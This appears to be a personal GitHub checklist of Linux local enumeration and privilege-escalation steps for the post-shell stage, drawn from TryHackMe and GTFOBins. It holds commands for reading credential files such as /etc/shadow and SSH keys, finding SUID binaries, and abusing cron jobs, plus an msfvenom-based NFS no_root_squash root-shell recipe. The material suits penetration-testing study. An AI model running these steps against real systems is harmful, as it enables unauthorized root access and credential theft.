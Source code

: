 # Linux Local Enumeration Check List
## Author: JamesB9
## Description:
A list of steps I carry out once I have a basic shell on the target machine. I was able to create this list using information and resources provided from https://tryhackme.com/room/lle and https://gtfobins.github.io/


### Find id_rsa
id_rsa is a file containing the SSH private key for a user to use to sign into the machine via ssh without a password
It is usually found in the user's home directory within a .ssh/ folder.

### Create a more stable shell
There are many ways for this. A commands are listed below

    # Spawn Shell with Python
    python3 -c 'import pty; pty.spawn("/bin/bash")'
    # Execute bash script
    /bin/bash


### Find out system information
Once you have found out the operating system distro and version, you can then look for know exploits and vulnerabilities with it.
Commands for this are below

	#Prints name, version and other details about the machine and the OS running on it
	uname -a

### Check auto-generated bash files
Some files in linux are automatically generated and can leave useful clues for an attacker.
Some files to look for are:
- ~/.bash_history
- .bash_profile
- .bashrc

### Check sudo version
Check sudo version to see if it is out-of-date and therefore may have vulnerabilities. For example sudo versions < 1.8.28 are vulnerable to CVE-2019-14287, which is a vulnerability that allows to gain root access with 1 simple command.
Commands for this:

	sudo -V

### Check sudo permissions
Check the sudo permissions to see what commands the user can run with sudo without requiring a password. If any are found, check GTFOBins for how to exploit them.
Commands for this:

  sudo -l

### Check /etc/passwd
Check /etc/passwd to see if you can read and/or write to it. Writing to it allows easy escalation to root priviledges as you can just add a new line (new user) with root priviledges.
The format of a line in this file is as follows:

    goldfish:x:1003:1003:,,,:/home/goldfish:/bin/bash

1. (goldfish) - Username
2. (x) - Password. (x character indicates that an encrypted account password is stored in /etc/shadow file and cannot be displayed in the plain text here)
3. (1003) - User ID (UID): Each non-root user has his own UID (1-99). UID 0 is reserved for root.
4. (1003) - Group ID (GID): Linux group ID
5. (,,,) - User ID Info: A field that contains additional info, such as phone number, name, and last name. (,,, in this case means that I did not input any additional info while creating the user)
6. (/home/goldfish) - Home directory: A path to user's home directory that contains all the files related to them.
7. (/bin/bash) - Shell or a command: Path of a command or shell that is used by the user. Simple users usually have /bin/bash as their shell, while services run on /usr/sbin/nologin.

### Check /etc/shadow
Check /etc/shadow to see if you can read and/or write to it. This file stores all password hashes for the users of the machine. Once you have these, you may be able to decypher and brute-force them.
The format of a line in this file is as follows:

    goldfish:$6$1FiLdnFwTwNWAqYN$WAdBGfhpwSA4y5CHGO0F2eeJpfMJAMWf6MHg7pHGaHKmrkeYdVN7fD.AQ9nptLkN7JYvJyQrfMcfmCHK34S.a/:18483:0:99999:7:::

1. (goldfish) - Username
2. ($6$1FiLdnFwT...) - Password : Encrypted password.
Basic structure: **$id$salt$hashed**, The $id is the algorithm used On GNU/Linux as follows:
- $1$ is MD5
- $2a$ is Blowfish
- $2y$ is Blowfish
- $5$ is SHA-256
- $6$ is SHA-512
3. (18483) - Last password change: Days since Jan 1, 1970 that password was last changed.
4. (0) - Minimum: The minimum number of days required between password changes (Zero means that the password can be changed immidiately).
5. (99999) - Maximum: The maximum number of days the password is valid.
6. (7) - Warn: The number of days before the user will be warned about changing their password.

### Check /etc/hosts
/etc/hosts assigns names to IP addresses. This file may reveal other device's IP addresses on the network.

### Find logs, configuration files and backup files
These files could contain confidential information. Use the find command as shown below

	find / -type f -name *.log 2>/dev/null
	find / -type f -name *.conf 2>/dev/null
	find / -type f -name *.bak 2>/dev/null

### Find SUID files
SUID files are files that allow you to execute them with the priviledges of another user. Once found, use GTFOBins to find ways of exploiting these SUID binaries.
Find them by:

	find / -type f -perm -u=s 2>/dev/null

To find both SUID and SGID files and display them with extra information, the following command can be used.

  find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null

### View network configurations
Use the commands below to view port forwarding and therefore other machines on the network.

	netstat -at | less
	netstat -tulpn

### Cron Jobs
Cron Jobs are programs or scripts scheduled to run at times/intervals. Cron table files (crontabs) store job configs.
- If a script that is scheduled is writeable, it could be exploited to generate a root reverse shell.
- If the PATH variable in /etc/crontab has a path writeable by the user, you can create a script with the same name as one of the root cronjobs. This new script will be run instead of the original
- If possible, read the contents of the scripts to see whether the commands they use can be exploited. For example, tar with a wildcard (*) may be exploited with checkpoint variables.
View contents of the system-wide crontab with:

  cat /etc/crontab

### NFS
Have a look in the file /etc/exports and look for any directories with no_root_squash attribute. If there is a dir with this then files in it can be run as root so long as the files uploaded are done so by a root user.

LOCAL LINUX MACHINE:
  mkdir /tmp/nfs
  mount -o rw,vers=2 [IP]:[DIR] /tmp/nfs
  msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/nfs/shell.elf
  chmod +xs /tmp/nfs/shell.elf
  
 TARGET LINUX MACHINE:
 
  [DIR]/shell.elf

### Kernel exploits
Kernel exploits can leave the system in an unstable state, which is why you should only run them as a last resort. You can run tools to find them on a system.

### USE TOOLS!
There are many tools to help linux privilege escalation. Some I've used are:
- LinEnum.sh (Linux Enumeration)
- LinPEAS.sh (Linux Privilege Escalation Awesome Scripts)
- lse.sh (Linux smart enumeration)

### Meterpreter shell
If you have a meterpreter shell on the system, the following commands can help identify ways of escalating privileges.

  run post/multi/recon/local_exploit_suggester
